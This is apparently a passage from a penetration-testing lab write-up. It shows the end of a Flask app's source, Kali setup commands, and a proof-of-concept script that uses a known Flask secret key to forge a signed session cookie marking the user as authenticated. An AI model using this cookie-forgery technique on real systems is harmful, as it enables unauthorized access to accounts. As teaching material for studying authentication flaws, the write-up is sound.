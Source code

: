 ```


@app.errorhandler(403)
def error403(e):
	return "You are not authorised to access this", 403


#Confirm that there is an admin account in place
AuthConn()

serve(app, host="127.0.0.1", port=8000)

```



**Kali(poc-venv)**

```
sudo apt update && sudo apt install python3-venv
python3 -m venv poc-venv
source poc-venv/bin/activate
pip3 install flask requests waitress
```

**Kali(poc-venv)**

```
subl poc.py
```



**poc.py**

```
#!/usr/bin/env python3
from flask import Flask, session, request
from waitress import serve
import requests, threading, time

#Flask Initialisation
app = Flask(__name__)
app.config["SECRET_KEY"] = "43961b349373988c271babcbb6e55347"

@app.route("/")
def main():
    session["auth"] = "True"
    session["username"] = "Pentester"
    return "Check your cookies", 200

#Flask setup/start
thread = threading.Thread(target = lambda: serve(app, port=9000, host="127.0.0.1"))
thread.setDaemon(True)
thread.start()

#Request
time.sleep(1)
print(requests.get("http://localhost:9000/").cookies.get("session"))
```

